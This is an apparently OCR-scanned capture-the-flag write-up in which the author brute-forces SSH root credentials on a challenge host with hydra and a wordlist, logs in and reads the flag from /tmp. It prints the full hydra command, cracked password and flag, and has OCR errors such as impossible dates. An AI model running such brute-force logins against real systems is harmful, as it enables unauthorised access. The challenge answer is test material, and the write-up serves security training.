 # All hail Hydra

> Rumors have circulated among the hacking comunity that inside the facility Lies a powerful flag, the ultimate prize that grants the possessor unprecedented control over. cyverspace. This flag is said to hold the key 20 accessing top-secret government networks, unlocking untold secrets, and potentially altering the course of history. The flag is Tumored to reside possibly withinthe temporary folder. 
> Note: Be careful to not get detected if bruteforcing.  

This challenge gives us a domain and port to connect to. When we connect to it, we can see it has a ssh server running. This server requires a username and password. We are also given a wordlist. The title also hint to using `hydra` for bruteforcing.

```sh
[ssk@arch kic]$ hydra -s 13117 -l root -P wordlist.txt 0.cloud.chals.io ssh -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these  *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-87-30 16:37:17

[DATA] max 4 tasks per 1 server, overall 4 tasks, 20 login tries (l:1/p:20), ~5 tries per task
[DATA] attacking ssh://0.cloud.chals.io:13117/

[13117][ssh] host: 0.cloud.chals.io login: root password: iloveyou

1 of 1 target successfully completed, 1 valid password found

Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-87-30 1
```
`hydra` is successfully able to find the password `iloveyou` that we can use to ssh into the server.
```sh
[ssk@arch kic]$ ssh root@e.cloud.chals.io -p 13117
'root@0.cloud.chals.io's password:
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.4.0-155-generic x86_64)

* Documentation: https://help.ubuntu.com
* Management: https: //landscape.canonical.com
* Support: https: //ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
rootEBE9Db14B12458: ~# ls
root@8E9b14B12458:~# cd /tmp
rootE8e9b14812458:/tmp# ls
flag. txt
root@809b14812458:/tmp# cat flag.txt
KPMG_CTF{eb9d31640af3509257a8d36758bc95da}
```